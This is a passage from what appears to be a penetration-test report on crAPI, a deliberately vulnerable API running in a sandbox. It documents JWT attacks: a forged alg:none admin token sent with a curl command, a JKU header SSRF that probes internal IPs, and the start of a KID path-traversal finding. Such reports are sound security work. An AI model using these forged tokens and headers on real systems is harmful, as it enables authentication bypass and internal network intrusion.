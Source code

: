 **Prerequisites:** None

**Exploitation Steps:**

1. Create unsigned JWT token with admin privileges:
   - Header: `{"alg": "none"}`
   - Payload: `{"sub": "admin@example.com", "iat": 1758655244, "exp": 1759260044, "role": "admin"}`
   - Signature: Empty (unsigned token format: `header.payload.`)

2. Test unsigned token:
```bash
curl -k -H "Authorization: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbkBleGFtcGxlLmNvbSIsImlhdCI6MTc1ODY1NTI0NCwiZXhwIjoxNzU5MjYwMDQ0LCJyb2xlIjoiYWRtaW4ifQ." "https://crapi.sandbox.local:8888/identity/api/v2/user/dashboard"
```

**Proof of Impact:**
- HTTP 200 response with full admin dashboard access
- Retrieved sensitive admin account information including credentials
- Complete bypass of all authentication mechanisms

### AUTH-VULN-06: JWT JKU Header SSRF Exploitation

**Summary:**
- **Vulnerable location:** JKU header processing in JWT validation
- **Overview:** Server-Side Request Forgery through JWT Key URL manipulation
- **Impact:** Internal network reconnaissance and potential access to cloud metadata
- **Severity:** High

**Prerequisites:** Ability to craft JWT tokens with JKU headers

**Exploitation Steps:**

1. Create JWT with malicious JKU header pointing to internal resources:
```json
{
  "alg": "RS256",
  "jku": "http://192.168.1.1/admin",
  "typ": "JWT"
}
```

2. Test internal network access:
   - `http://192.168.1.1/admin` (10.0s timeout - confirms internal network access)
   - `http://10.0.0.1/status` (10.3s timeout - confirms internal routing)
   - `http://172.16.0.1/health` (10.3s timeout - confirms private IP access)

**Proof of Impact:**
- Confirmed SSRF capability through timeout analysis
- Server makes HTTP requests to attacker-controlled URLs
- Internal network ranges (RFC 1918) are accessible
- Potential for cloud metadata service access

### AUTH-VULN-07: JWT KID Header Injection Exploitation 

**Summary:**
- **Vulnerable location:** KID header processing triggers weak secret usage
- **Overview:** Path traversal in KID header forces application to use weak HMAC secret
- **Impact:** Complete authentication bypass through weak secret exploitation
- **Severity:** Critical
